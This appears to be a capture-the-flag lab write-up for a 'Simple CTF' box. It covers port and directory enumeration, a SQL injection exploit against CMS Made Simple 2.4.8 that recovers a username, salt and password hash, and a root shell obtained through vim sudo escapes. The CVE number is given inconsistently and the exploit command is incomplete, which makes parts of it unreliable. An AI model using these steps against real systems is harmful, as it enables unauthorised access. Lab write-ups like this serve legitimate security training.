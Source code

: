 ## Enumeration:
nmap scan results:
![](attachments/simple%20ctf%20nmap%20detailed%20scan.png)


gobuster result:
![](attachments/simple%20ctf%20gobuster%20result.png)

/simple implements cms 2.4.8 which is vulnerable to sql injection based attack  CVE-2019-2053
 [exploit link](https://github.com/e-renna/CVE-2019-9053/blob/master/exploit.py)
modifying the cve to run on python3 not just on python
now running the exploit
python3 -u http://10.10.172.2/simple 
which starts bruteforcing 
![](attachments/simple%20ctf%20cred%20from%20exploit.png)

running ssh to user mitcuL at port 2222
did not let us log becaus eof the incorrect exploit
i ran the correct exploit and got this 
![](attachments/simple%20ctf%20exploit2.png)

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
which gave me the password secret


0c01f4468bd75d7a84c7eb73846e8d96
![](attachments/simple%20ctf%20privesc.png)

```
/usr/bin/vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```
again this command did'nt run
```
sudo vim -c ':!/bin/sh'
```
 this ran and gave me root access

rootflag:
W3ll d0n3. You made it!

![](attachments/simple%20ctf%20root%20access.png)

